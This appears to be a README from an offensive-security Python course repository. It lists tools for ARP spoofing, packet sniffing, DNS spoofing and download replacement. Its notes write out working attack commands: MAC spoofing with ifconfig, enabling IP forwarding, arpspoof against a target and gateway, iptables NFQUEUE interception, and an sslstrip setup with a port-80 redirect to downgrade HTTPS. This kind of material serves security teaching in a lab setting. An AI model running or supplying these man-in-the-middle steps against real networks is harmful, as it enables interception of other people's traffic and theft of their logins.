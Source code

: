 # Offensive Security Python
> From Zaid Sabih

* Topics
- Changing MAC Address 
- Network Scanner
- ARP Spoofing
- Packet Sniffer
- DNS Spoofer
- Replace Download

## Playbook
> Check on how to use these tools 

## Dependencies on PIP
- scapy
- scapy_http
- netfilterqueue
- netifaces

# Notes
> On doing this things manually or with another tool

## Changing MAC ADDRESS
Commands
```
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
ifconfig wlan0 
```
## ARP SPOOF 
* Reminder you need to enable ip forwarding in Linux First
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
 * exceptions in ubuntu 
 > as a normal user, you won't be able to write to the file due to insufficient permission.  
 Use sudo and bash:

```
 sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
```

 Use tee:

```
 echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

Terminal 1 for Target  
```
arpspoof -i <INTERFACE> -t <TARGET IP> <GATEWAY IP>
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
```

Terminal 2 for Gateway  
```
arpspoof -i <INTERFACE> -t <GATEWAY IP> <TARGET IP>
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 
```

## Intercepting Packets

To queue all request to number 0
```
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

to restore them
```
iptables --flush
```

## Bypassing HTTPS

* Terminal 1 
> Goal To be MITM  
> Let's use our arp spoof file

```
python arpspoof.py
```

* Terminal 2
> Goal is to use SSLstrip
> ssltrip default port is 10000

```
sslstrip
```

* Terminal 3
> Goal 
> 

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```



--- 

### Python 3 Compatibility

pip3 install scapy-python3

#### Same line Printing 
print("\r [+] Info counter", end="")


